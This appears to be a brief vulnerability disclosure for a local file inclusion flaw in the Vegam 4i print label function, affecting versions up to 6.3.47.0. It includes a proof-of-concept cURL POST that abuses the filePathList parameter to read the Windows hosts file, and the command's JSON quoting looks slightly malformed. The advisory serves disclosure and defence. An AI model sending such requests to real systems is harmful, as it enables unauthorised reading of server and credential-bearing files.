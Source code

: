 ## Vegam 4i 

### Version affected <=6.3.47.0
___
<br/>
The print label function in Vegam 4i is vulnerable to a Local file Inclusion vulnerability via the filePathList parameter, allowing an malicious user to include files on web server such as web.config, etc/host leading to sensitive information disclosure.

<br/>
This vulnerability was discovered by Rahul Kadavil from Henkel Cyber Security

cURL command:

```curl
curl -i -s -k -X $'POST' -H $'Cookie:' -H $'CSRF-Token:' --data-binary $'\0xd\0xa{\"filePathList\":[\"C:/Windows/System32/Drivers/etc/hosts\"],\"iterationCount\":4,"\labelNumberList":[]\0xd\0xa} $'https://your_instance/iPAS/WebServices/ipas_LabelPrintService.asmx/GenerateLabelPDFZip'
```

